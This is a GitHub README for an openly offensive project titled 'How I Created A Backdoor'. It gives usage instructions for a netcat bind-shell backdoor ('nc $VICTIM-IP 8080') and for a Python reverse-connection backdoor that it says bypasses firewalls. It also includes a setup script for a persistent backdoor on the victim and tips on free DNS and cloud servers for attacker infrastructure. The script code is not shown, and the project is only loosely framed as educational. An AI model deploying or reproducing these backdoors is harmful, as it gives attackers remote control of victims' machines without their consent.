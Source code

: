 # How I Created A Backdoor 😎

![Linux-ok](https://img.shields.io/badge/Linux-ok-green) ![MacOS-ok](https://img.shields.io/badge/MacOS-ok-green) ![Window-ok](https://img.shields.io/badge/Window-todo-lightgrey) [![presentation](https://img.shields.io/badge/presentation-a)](https://slides.com/kysterdraw/how-i-created-a-backdoor)

## ⚠️ Disclaimer
> Any actions and or activities related to the material contained within this repository is solely your responsibility. The misuse of the information in this website can result in criminal charges brought against the persons in question. The author will not be held responsible in the event any criminal charges be brought against any individuals misusing the information in this repository to break the law.

<br />

## 👌🏻 Basic Backdoor
### Description
Basic backdoor is the easiest backdoor that you could make.
The victim is just a server that redirects incoming messages into a shell and then sends back the shell output.
The victim IP can be found easly with `nmap`.

**⚠️ You usually need to be on the same subnet of the victim**

### Pre-requirements
- [netcat](http://netcat.sourceforge.net/) *(usually already installed)*

### Usage
```bash
# On the victim
./basic-backdoor/backdoor.sh
```

```bash
# On the attacker
nc $VICTIM-IP 8080
```

<br />

## 💪🏻 Advanced Backdoor
### Description
This advanced backdoor allows to bypass the firewall and to communicate outside subnetwork.
Now the victim is just a client, the attacker is the server. When the victim is connected to the attacker's server, he'll execute command provided by the attacker and then send it back its output.
You can configure `PORT` and `DNS` inside the files [backdoor-client.py](./advanced-backdoor/backdoor-client.py) and [backdoor-server.py](./advanced-backdoor/backdoor-server.py).

> You can use [freenom](https://my.freenom.com) to get a free DNS.
> You can use [aws](https://aws.amazon.com/fr/ec2/) to get free server.

### Pre-requirements
- [python3](https://www.python.org/download/releases/3.0/) *(usually already installed)*
- [pip](https://pip.pypa.io/en/stable/installing/) **(only for attacker)**

### Usage
```bash
# On the victim for non-permanent backdoor
./advanced-backdoor/backdoor-client.py

# ⚠️ On the victim for "PERMANENT" backdoor
./advanced-backdoor/setup.sh
```

```bash
# On the attacker (where the DNS is pointing to)
pip3 install -r ./advanced-backdoor/requirements.txt
./advanced-backdoor/backdoor-server.py
```

----

*➡️ Take time to understand how it's working, PR are welcomed*
